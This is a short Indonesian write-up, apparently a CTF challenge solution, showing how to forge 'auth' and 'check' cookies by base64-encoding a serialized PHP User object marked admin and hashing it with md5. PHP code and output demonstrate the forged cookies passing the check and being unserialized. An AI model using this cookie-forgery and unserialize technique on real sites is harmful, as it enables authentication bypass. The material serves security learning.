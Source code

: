 * Cookie auth merupakan serialize dari objek User dengan user-> admmin dan pass-> True + diencode ke base64. Adapun cookie check merupakan hasil encode base64 dari md5       cookie auth. Jadi untuk mendaptkan admin, peserta harus membuat payload objek untuk diserialize yang benar (seperti di bawah) dan mengencodenya ke base64 sebagai cookie auth. Lalu menghash md5 
dari hasil cookie auth sebagai cookie check. 

  Lebih lengkap:
  ```
  <?php
  $_COOKIE['auth'] = 'Tzo0OiJVc2VyIjoyOntzOjQ6InVzZXIiO3M6NToiYWRtaW4iO3M6NDoicGFzcyI7YjoxO30=';
  //O:4:"User":2:{s:4:"user";s:5:"admin";s:4:"pass";b:1;} -> md5 -> 6897f0060a84ecb0600e4167d2a748e4

  $_COOKIE['check'] = 'Njg5N2YwMDYwYTg0ZWNiMDYwMGU0MTY3ZDJhNzQ4ZTQ=';
  //base64 6897f0060a84ecb0600e4167d2a748e4

  var_dump(md5($_COOKIE['auth']));
  var_dump(base64_decode($_COOKIE['check']));

  if(md5($_COOKIE['auth']) === base64_decode($_COOKIE['check'])) {
      $login = unserialize(base64_decode($_COOKIE['auth']));
      var_dump($login);
  }else {

  }
  ```
  
  ```
  string(32) "6897f0060a84ecb0600e4167d2a748e4"
  string(32) "6897f0060a84ecb0600e4167d2a748e4"
  object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["user"]=>
  string(5) "admin"
  ["pass"]=>
  bool(true)
}
```
